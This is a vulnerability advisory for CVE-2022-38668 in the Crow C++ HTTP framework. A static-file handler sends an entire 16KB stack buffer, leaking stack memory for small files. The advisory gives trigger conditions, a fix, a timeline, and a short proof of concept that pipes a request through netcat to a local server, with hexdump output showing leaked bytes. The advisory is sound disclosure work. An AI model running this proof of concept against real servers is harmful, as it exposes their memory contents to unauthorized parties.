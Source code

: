 <h2><b><i>Summary:</i></b></h2>

Crow versions prior <a src="https://github.com/CrowCpp/Crow/releases/tag/v1.0%2B4">v1.0+4</a> (included) are vulnerable to an Information Disclosure
("Exposure of Sensitive Information to an Unauthorized Actor") issue, due to
improper handling of static resources.
Any request to a static resource, where the static resource is smaller than
16KB, will lead to disclosing up to 16KB of data from the stack.

Affected: Crow version 1.0+4 and older

<a src="https://github.com/CrowCpp/Crow">https://github.com/CrowCpp/Crow</a> - maintained version (fork)

<a src="https://github.com/ipkn/crow">https://github.com/ipkn/crow</a> - original version

CVE ID: [CVE-2022-38668](https://www.cve.org/CVERecord?id=CVE-2022-38668)

CVSS: 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)

Discovered by:</br>
&ensp;Gynvael Coldwind</br>
&ensp;hebi

Method of discovery:</br>
  &ensp;Manual Analysis (reading the code)</br>

<blockquote>
"Crow is a C++ framework for creating HTTP or Websocket web services. It uses
routing similar to Python's Flask which makes it easy to use. It is also
extremely fast, beating multiple existing C++ frameworks as well as non C++
frameworks." </blockquote> (source: project's README.md)<br></br>

<b>IMPORTANT:</b> This vulnerability is reported under the 90-day policy 
(version 2021), i.e. this report will be shared publicly with the defensive
community on 16th November 2022 if a patch/fix is not available by that time, or
30 days after the fix becomes available. For details please see:
<a src="https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html">https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html</a>


<h2><b><i>Vulnerability details</i></b></h2>

The vulnerability is located in the Connection::do_write_static* method within 
the http_connection.h file.
*<a src="https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393">https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393</a>

This function creates a local buffer with a fixed size of 16384 bytes. Then the
buffer is passed to is.read() method (where "is" denotes an opened local file
pointed to by the static resource mapping) to acquire the content of the given
static resource (file). This call made within a while loop's condition, which
checks if any data was read (if not, the loop will exit).

However, the number of bytes that were read is not being tracked in any form.
Furthermore, the whole buffer is then passed to <code>asio::buffer</code> without specified
size**.

<b>**In this case it means that the whole array size will be used as data size, as
per the following constructor description:</b>

<a src="https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html">https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html</a>

This in turn leads to the whole local buffer being sent to the client requesting
the resource, including the potentially uninitialized part. This is especially
true for files smaller than 16KB.

<b>Conditions for triggering this behavior are:</b>

<ol>
  <li>Static path needs to be defined.</li>
  <li>At least 1 static file needs to exist</li>
  <li>The file needs to be smaller than 16KB.</li>
</ol>

<h2><b><i>Exploit</i></b></h2>

```
$ cat poc.txt | nc -v 127.0.0.1 18080 | hexdump -C
localhost [127.0.0.1] 18080 (?) open
00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
00000010  0a 43 6f 6e 74 65 6e 74  2d 54 79 70 65 3a 20 74  |.Content-Type: t|
00000020  65 78 74 2f 70 6c 61 69  6e 0d 0a 43 6f 6e 74 65  |ext/plain..Conte|
00000030  6e 74 2d 4c 65 6e 67 74  68 3a 20 35 0d 0a 53 65  |nt-Length: 5..Se|
00000040  72 76 65 72 3a 20 43 72  6f 77 2f 6d 61 73 74 65  |rver: Crow/maste|
00000050  72 0d 0a 44 61 74 65 3a  20 54 75 65 2c 20 31 36  |r..Date: Tue, 16|
00000060  20 41 75 67 20 32 30 32  32 20 32 32 3a 34 39 3a  | Aug 2022 22:49:|
00000070  32 32 20 47 4d 54 0d 0a  43 6f 6e 6e 65 63 74 69  |22 GMT..Connecti|
00000080  6f 6e 3a 20 4b 65 65 70  2d 41 6c 69 76 65 0d 0a  |on: Keep-Alive..|
00000090  0d 0a 54 65 73 74 0a 00  00 00 00 00 00 00 00 00  |..Test..........|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002a90  00 00 00 00 00 00 00 00  00 00 28 14 00 ac d8 7f  |..........(.....|
00002aa0  00 00 20 14 00 ac d8 7f  00 00 48 f8 8c b4 d8 7f  |.. .......H.....|
00002ab0  00 00 50 f8 8c b4 d8 7f  00 00 49 8a 42 00 00 00  |..P.......I.B...|
00002ac0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002ad0  00 00 03 00 00 00 00 00  00 00 11 00 00 00 00 00  |................|
00002ae0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002af0  00 00 c0 f8 8c b4 d8 7f  00 00 cc 89 42 00 00 00  |............B...|
00002b00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00002b10  00 00 5b 00 00 00 6e 00  00 00 c0 1c 00 ac d8 7f  |..[...n.........|
00002b20  00 00 b0 1c 00 ac d8 7f  00 00 01 00 00 00 00 00  |................|
00002b30  00 00 20 00 00 00 00 00  00 00 08 00 00 00 00 00  |.. .............|
00002b40  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002b50  00 00 b0 1c 00 ac d8 7f  00 00 40 f9 8c b4 d8 7f  |..........@.....|
00002b60  00 00 f0 f8 8c b4 d8 7f  00 00 89 48 49 00 00 00  |...........HI...|
00002b70  00 00 28 3b 8d b4 d8 7f  00 00 30 14 00 ac d8 7f  |..(;......0.....|
00002b80  00 00 40 f9 8c b4 d8 7f  00 00 48 f9 8c b4 d8 7f  |..@.......H.....|
00002b90  00 00 50 f9 8c b4 d8 7f  00 00 99 47 49 00 00 00  |..P........GI...|
00002ba0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bb0  00 00 30 f9 8c b4 d8 7f  00 00 b0 1c 00 ac d8 7f  |..0.............|
00002bc0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bd0  00 00 d0 1c 00 ac d8 7f  00 00 b0 1c 00 ac d8 7f  |................|
00002be0  00 00 30 14 00 ac d8 7f  00 00 30 14 00 ac d8 7f  |..0.......0.....|
00002bf0  00 00 90 f9 8c b4 d8 7f  00 00 00 53 2a 66 e1 24  |...........S*f.$|
00002c00  09 b2 30 14 00 ac d8 7f  00 00 60 ff ff ff ff ff  |..0.......`.....|
...
```

<h2><b><i>Proposed fix:</i></b></h2>

Passing the actual size of bytes read to <code>asio::buffer</code>'s constructor.


<h3><b><i>Timeline</i></b></h3>
<ul>
  <li>2022-08-14: Vulnerability discovered.</li>
  <li>2022-08-17: Vulnerability reported.</li>
  <li>2022-08-21: Public fix was proposed.</li>
  <li>2022-08-22: Public fix was merged in.</li>
  <li>2022-08-22: CVE requested and assigned.</li>
  <li>2022-09-23: Details were published.</li>
</ul>

<h3><b><i>Links</i></b></h3>
<b>Gynvael's blog post:</b>
&ensp;<a src="https://gynvael.coldwind.pl/?lang=en&id=752">https://gynvael.coldwind.pl/?lang=en&id=752</a>
